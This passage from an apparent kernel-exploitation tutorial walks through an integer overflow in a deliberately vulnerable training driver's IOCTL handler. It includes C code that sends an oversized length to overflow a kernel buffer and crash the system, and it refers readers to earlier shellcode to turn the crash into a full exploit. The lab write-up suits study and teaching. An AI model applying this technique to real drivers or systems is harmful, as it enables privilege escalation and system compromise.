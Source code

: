 	printf("Exploit complete, cleaning up\n");
	CloseHandle(hDriver);
	return 0;
}
</pre>
Running the resulting binary doesn't anything to happen so we need to look at the Integer Overflows IOCTL Handler.
![](https://raw.githubusercontent.com/sam-b/HackSysDriverExploits/master/screenshots/int_overflow_compare.PNG)
Here we can see that the IOCTL handler takes the passed size from user mode adds four to it and then checks that the value is less than the size of the kernel mode buffer it has already allocated,  by passing a large enough value as the input buffer size we can make the plus four cause the value to wrap around to four or less despite our actual buffer being a size of our choice.
![](https://raw.githubusercontent.com/sam-b/HackSysDriverExploits/master/screenshots/int_overflow_loop.PNG)
The driver then copies data from the passed buffer until it finds a magic value, we will place this value at the end of our passed buffer. Now to trigger a crash we create a buffer of 0xFFFF bytes and send an IOCTL with it's size as 0xFFFFFFFF bytes, once four is added this will overflow to give a value of four. As this is less than the size of the kernel mode buffer the copy will go ahead, overflowing the buffer and causing a crash.
<pre>
DWORD nInBufferSize = 0x0000FFFF;
PULONG lpInBuffer = (PULONG)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, nInBufferSize);

if (!lpInBuffer) {
printf("HeapAlloc failed :( 0x%X\r\n", GetLastError());
return 1;
}

printf("Input buffer allocated as 0x%X bytes.\r\n", nInBufferSize);
printf("Input buffer address: 0x%p\r\n", lpInBuffer);

printf("Filling buffer.\r\n");

memset(lpInBuffer, 0x41, nInBufferSize);

printf("Got the device Handle: 0x%X\r\n", hDriver);
DeviceIoControl(hDriver,
HACKSYS_EVD_IOCTL_INTEGER_OVERFLOW,
lpInBuffer,
0xFFFFFFFF,
NULL, //No output buffer - we don't even know if the driver gives output #yolo.
0,
&lpBytesReturned,
NULL); //No overlap
</pre>

Compiling and running this we get a crash and it looks like we even overwrote one of the Exception Handler objects:

![](https://raw.githubusercontent.com/sam-b/HackSysDriverExploits/master/screenshots/int_overflow_crash.PNG)

At this point to create a working exploit we follow the same process which was used for exploiting the [stackoverflow](https://www.whitehatters.academy/intro-to-windows-kernel-exploitation-2-windows-drivers/) vulnerability, we can even use the same shellcode.
